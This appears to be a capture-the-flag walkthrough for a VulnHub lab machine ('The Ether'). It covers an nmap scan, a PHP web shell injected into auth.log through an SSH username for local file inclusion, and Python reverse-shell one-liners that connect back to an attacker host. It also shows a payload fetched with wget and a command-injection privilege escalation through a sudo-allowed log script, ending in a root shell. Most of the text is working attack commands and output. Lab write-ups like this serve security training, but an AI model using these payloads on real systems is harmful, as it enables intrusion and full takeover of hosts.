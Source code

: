 EvilScene

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
To exploit ssh ‘<?php system($_GET[‘C’]);?>’@192.168.1.146
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



Scan Results

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Nmap scan report for 192.168.56.105
Host is up (0.00055s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 12:09:bc:b1:5c:c9:bd:c3:ca:0f:b1:d5:c3:7d:98:1e (RSA)
|   256 de:77:4d:81:a0:93:da:00:53:3d:4a:30:bd:7e:35:7d (ECDSA)
|_  256 86:6c:7c:4b:04:7e:57:4f:68:16:a9:74:4c:0d:2f:56 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: The Ether
MAC Address: 08:00:27:AE:7A:3D (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



Testing for Local File Inclusion 
We found that we can access /var/log/auth.log

![Alt Tag](https://raw.githubusercontent.com/setrus/VulnHub/master/Evilscience/evil1.png)


To exploit we leverage the auth log

ssh "<?php echo system($_GET[’cmd']);?>"@192.168.56.105

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~# ssh "<?php echo system($_GET['cmd']);?>"@192.168.56.105
<?php echo system(['cmd']);?>@192.168.56.105's password: 
Permission denied, please try again.
<?php echo system(['cmd']);?>@192.168.56.105's password: 
Permission denied, please try again.
<?php echo system(['cmd']);?>@192.168.56.105's password: 
<?php echo system(['cmd']);?>@192.168.56.105: Permission denied (publickey,password).

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Reverse shell - Remote Command Execution
![Alt Tag](https://raw.githubusercontent.com/setrus/VulnHub/master/Evilscience/evil2.png)


Getting a reverse shell using python:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.56.102",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

This is URL encoded and send to the server:

![Alt Tag](https://raw.githubusercontent.com/setrus/VulnHub/master/Evilscience/evil3.png)

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~# nc -nvlp 1234
listening on [any] 1234 ...
connect to [192.168.56.102] from (UNKNOWN) [192.168.56.105] 50232
/bin/sh: 0: can't access tty; job control turned off
$ python -c 'import pty;pty.spawn("/bin/bash");'
bash-4.3$ 
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



Privilege Escalation

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
bash-4.3$ pwd
pwd
/var/www/html/theEther.com/public_html
bash-4.3$ sudo -l
sudo -l
sudo: unable to resolve host theEther: Connection refused
Matching Defaults entries for www-data on theEther:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on theEther:
    (ALL) NOPASSWD: /var/www/html/theEther.com/public_html/xxxlogauditorxxx.py
    (root) NOPASSWD: /var/www/html/theEther.com/public_html/xxxlogauditorxxx.py

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~




~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
www-data@theEther:/var/www/html/theEther.com/public_html$ wget http://192.168.56.102:8787/log.py -O /tmp/log.py
<tml$ wget http://192.168.56.102:8787/log.py -O /tmp/log.py                  
--2019-10-20 01:29:11--  http://192.168.56.102:8787/log.py
Connecting to 192.168.56.102:8787... connected.
HTTP request sent, awaiting response... 200 OK
Length: 243 [text/plain]
Saving to: '/tmp/log.py'

/tmp/log.py         100%[===================>]     243  --.-KB/s    in 0s      

2019-10-20 01:29:11 (59.2 MB/s) - '/tmp/log.py' saved [243/243]

$ cat /tmp/log.py
#!/usr/bin/python
import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("192.168.56.102",4444));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
ssp=subprocess.call(["/bin/sh","-i"]);




www-data@theEther:/var/www/html/theEther.com/public_html$ chmod +x /tmp/log.py
<html/theEther.com/public_html$ chmod +x /tmp/log.py                         
www-data@theEther:/var/www/html/theEther.com/public_html$ sudo ./xxxlogauditorxxx.py
<html/theEther.com/public_html$ sudo ./xxxlogauditorxxx.py                   
sudo: unable to resolve host theEther: Connection refused
===============================
Log Auditor
===============================
Logs available
-------------------------------
/var/log/auth.log
/var/log/apache2/access.log
-------------------------------

Load which log?: /var/log/auth.log | /tmp/log.py
/var/log/auth.log | /tmp/log.py

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Root Shell

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~# nc -nvlp 4444
listening on [any] 4444 ...
connect to [192.168.56.102] from (UNKNOWN) [192.168.56.105] 50976
# id
uid=0(root) gid=0(root) groups=0(root)

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



